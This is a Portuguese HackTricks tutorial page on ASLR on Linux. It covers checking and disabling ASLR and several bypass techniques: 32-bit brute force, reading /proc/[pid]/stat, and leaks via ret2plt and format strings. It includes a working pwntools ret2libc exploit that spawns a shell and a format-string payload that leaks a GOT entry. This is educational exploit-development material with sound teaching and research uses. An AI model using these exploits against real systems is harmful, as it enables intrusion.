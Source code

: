 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Informações Básicas

**Address Space Layout Randomization (ASLR)** é uma técnica de segurança utilizada em sistemas operacionais para **randomizar os endereços de memória** usados por processos do sistema e de aplicação. Ao fazer isso, torna-se significativamente mais difícil para um atacante prever a localização de processos e dados específicos, como a pilha, heap e bibliotecas, mitigando assim certos tipos de exploits, particularmente estouros de buffer.

### **Verificando o Status do ASLR**

Para **verificar** o status do ASLR em um sistema Linux, você pode ler o valor do arquivo `/proc/sys/kernel/randomize_va_space`. O valor armazenado neste arquivo determina o tipo de ASLR que está sendo aplicado:

- **0**: Sem randomização. Tudo é estático.
- **1**: Randomização conservadora. Bibliotecas compartilhadas, pilha, mmap(), página VDSO são randomizadas.
- **2**: Randomização completa. Além dos elementos randomizados pela randomização conservadora, a memória gerenciada através de `brk()` é randomizada.

Você pode verificar o status do ASLR com o seguinte comando:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Desativando ASLR**

Para **desativar** ASLR, você define o valor de `/proc/sys/kernel/randomize_va_space` como **0**. Desativar ASLR geralmente não é recomendado fora de cenários de teste ou depuração. Aqui está como você pode desativá-lo:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Você também pode desativar o ASLR para uma execução com:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Habilitando ASLR**

Para **habilitar** ASLR, você pode escrever um valor de **2** no arquivo `/proc/sys/kernel/randomize_va_space`. Isso geralmente requer privilégios de root. Habilitar a randomização completa pode ser feito com o seguinte comando:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistência Através de Reinicializações**

As alterações feitas com os comandos `echo` são temporárias e serão redefinidas após a reinicialização. Para tornar a alteração persistente, você precisa editar o arquivo `/etc/sysctl.conf` e adicionar ou modificar a seguinte linha:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Após editar `/etc/sysctl.conf`, aplique as alterações com:
```bash
sudo sysctl -p
```
Isso garantirá que suas configurações de ASLR permaneçam entre reinicializações.

## **Bypasses**

### Força bruta de 32 bits

PaX divide o espaço de endereçamento do processo em **3 grupos**:

- **Código e dados** (inicializados e não inicializados): `.text`, `.data` e `.bss` —> **16 bits** de entropia na variável `delta_exec`. Esta variável é inicializada aleatoriamente com cada processo e adicionada aos endereços iniciais.
- **Memória** alocada por `mmap()` e **bibliotecas compartilhadas** —> **16 bits**, chamada `delta_mmap`.
- **A pilha** —> **24 bits**, referida como `delta_stack`. No entanto, ela efetivamente usa **11 bits** (do 10º ao 20º byte, inclusive), alinhados a **16 bytes** —> Isso resulta em **524.288 endereços de pilha reais possíveis**.

Os dados anteriores são para sistemas de 32 bits e a entropia final reduzida torna possível contornar o ASLR tentando a execução repetidamente até que a exploração seja concluída com sucesso.

#### Ideias de força bruta:

- Se você tiver um estouro grande o suficiente para hospedar um **grande NOP sled antes do shellcode**, você poderia simplesmente forçar endereços na pilha até que o fluxo **salte sobre alguma parte do NOP sled**.
- Outra opção para isso, caso o estouro não seja tão grande e a exploração possa ser executada localmente, é possível **adicionar o NOP sled e o shellcode em uma variável de ambiente**.
- Se a exploração for local, você pode tentar forçar o endereço base da libc (útil para sistemas de 32 bits):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Se você estiver atacando um servidor remoto, pode tentar **forçar a descoberta do endereço da função `usleep` da `libc`**, passando como argumento 10 (por exemplo). Se em algum momento o **servidor demora 10s a mais para responder**, você encontrou o endereço dessa função.

> [!TIP]
> Em sistemas de 64 bits, a entropia é muito maior e isso não é possível.

### Informações Locais (`/proc/[pid]/stat`)

O arquivo **`/proc/[pid]/stat`** de um processo é sempre legível por todos e **contém informações interessantes** como:

- **startcode** & **endcode**: Endereços acima e abaixo com o **TEXT** do binário
- **startstack**: O endereço do início da **stack**
- **start_data** & **end_data**: Endereços acima e abaixo onde está o **BSS**
- **kstkesp** & **kstkeip**: Endereços atuais de **ESP** e **EIP**
- **arg_start** & **arg_end**: Endereços acima e abaixo onde estão os **argumentos cli**.
- **env_start** & **env_end**: Endereços acima e abaixo onde estão as **variáveis de ambiente**.

Portanto, se o atacante estiver no mesmo computador que o binário sendo explorado e esse binário não espera o overflow de argumentos brutos, mas de uma **entrada diferente que pode ser criada após a leitura deste arquivo**. É possível para um atacante **obter alguns endereços deste arquivo e construir offsets a partir deles para a exploração**.

> [!TIP]
> Para mais informações sobre este arquivo, consulte [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) procurando por `/proc/pid/stat`

### Tendo um leak

- **O desafio é fornecer um leak**

Se você receber um leak (desafios fáceis de CTF), pode calcular offsets a partir dele (supondo, por exemplo, que você conheça a versão exata da libc que está sendo usada no sistema que você está explorando). Este exemplo de exploração é extraído do [**exemplo daqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (verifique essa página para mais detalhes):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Abusando de um buffer overflow, seria possível explorar um **ret2plt** para exfiltrar um endereço de uma função da libc. Verifique:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Assim como no ret2plt, se você tiver uma leitura arbitrária através de uma vulnerabilidade de format strings, é possível exfiltrar o endereço de uma **função libc** do GOT. O seguinte [**exemplo é daqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Você pode encontrar mais informações sobre leitura arbitrária de Format Strings em:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Tente contornar o ASLR abusando de endereços dentro da pilha:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
